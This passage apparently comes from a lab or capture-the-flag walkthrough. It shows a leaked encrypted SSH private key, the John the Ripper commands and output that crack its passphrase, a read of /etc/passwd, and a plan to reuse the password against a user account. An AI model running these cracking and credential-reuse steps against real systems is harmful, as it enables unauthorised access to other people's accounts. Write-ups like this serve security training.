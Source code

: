```sh
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```

Now to prepare the file for John the Ripper and cracking it:

```
# /usr/share/john/ssh2john.py user.key > user.key.john
# john --wordlist=/usr/share/wordlists/rockyou.txt --fork=4 user.key.john

Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Node numbers 1-4 of 4 (fork)
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (user.key)
4 0g 0:00:00:09 DONE (2019-12-08 12:21) 0g/s 361800p/s 361800c/s 361800C/s *7¡Vamos!
3 0g 0:00:00:10 DONE (2019-12-08 12:21) 0g/s 357468p/s 357468c/s 357468C/sa6_123
1 0g 0:00:00:10 DONE (2019-12-08 12:21) 0g/s 356404p/s 356404c/s 356404C/sie168
Waiting for 3 children to terminate
2 1g 0:00:00:10 DONE (2019-12-08 12:21) 0.09813g/s 351856p/s 351856c/s 351856C/sabygurl69
Session completed
```

Got it. The only thing left to know now is a username. A quick look at `/etc/passwd` helps us here:

```
root:x:0:0:root:/root:/bin/bash
...
Matt:x:1000:1000:,,,:/home/Matt:/bin/bash
redis:x:107:114::/var/lib/redis:/bin/bash
```

However, when we try to SSH into the box as Matt from our remote machine, or the box' `localhost`, we get a permission error. Password authentication in SSH is enabled, however. So a good guess would be that Matt was a lazy user and reused his password that he previously encrypted his SSH key with.
